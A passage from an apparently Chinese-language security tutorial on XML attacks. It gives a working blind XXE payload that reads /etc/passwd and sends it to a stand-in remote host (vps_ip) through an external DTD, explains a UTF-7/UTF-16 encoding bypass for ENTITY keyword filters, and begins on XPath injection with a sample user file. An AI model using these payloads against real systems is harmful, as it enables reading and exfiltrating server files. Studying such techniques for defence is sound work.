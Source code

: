 ```
&lt;?xml version="1.0"?&gt;
&lt;!DOCTYPE ANY[
&lt;!ENTITY % file SYSTEM "file:///etc/passwd"&gt;
&lt;!ENTITY % remote SYSTEM "http://vps_ip/evil.xml"&gt;
%remote;
%all;
]&gt;
&lt;root&gt;&amp;send;&lt;/root&gt;
```

evil.xml

```
&lt;!ENTITY % all "&lt;!ENTITY send SYSTEM 'http://vps_ip/1.php?file=%file;'&gt;"&gt;
```

这样一来，在解析xml的时候：<br>
1.file实体被赋予`file:///etc/passwd`的内容<br>
2.解析remote值的时候，访问`http://vps_ip/evil.xml`<br>
3.在解析`evil.xml`中all实体的时候，将file实体带入<br>
4.访问指定url链接，将数据带出<br>
于是成功造成了blind xxe文件读取

这里再额外提及一下，既然我们再开始申明的时候可以规定编码格式，那么倘若后台对

```
ENTITY
```

等关键词进行过滤时，我们可以尝试使用UTF-7，UTF-16等编码去Bypass<br>
例如

```
&lt;?xml version="1.0" encoding="UTF-16"?&gt;
```

### <a class="reference-link" name="Xpath%E6%B3%A8%E5%85%A5"></a>Xpath注入

xml同样可作为数据存储，所以这里可以将其当做数据库<br>
类似于如下

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt; 
&lt;users&gt; 

&lt;user&gt; 
&lt;firstname&gt;Ben&lt;/firstname&gt;
&lt;lastname&gt;Elmore&lt;/lastname&gt; 
&lt;loginID&gt;abc&lt;/loginID&gt; 
&lt;password&gt;test123&lt;/password&gt; 
&lt;/user&gt; 

&lt;user&gt; 
&lt;firstname&gt;Shlomy&lt;/firstname&gt;
&lt;lastname&gt;Gantz&lt;/lastname&gt;
&lt;loginID&gt;xyz&lt;/loginID&gt; 
&lt;password&gt;123test&lt;/password&gt; 
&lt;/user&gt; 

&lt;user&gt; 
&lt;firstname&gt;Jeghis&lt;/firstname&gt;
&lt;lastname&gt;Katz&lt;/lastname&gt;
&lt;loginID&gt;mrj&lt;/loginID&gt; 
&lt;password&gt;jk2468&lt;/password&gt; 
&lt;/user&gt; 

&lt;user&gt; 
```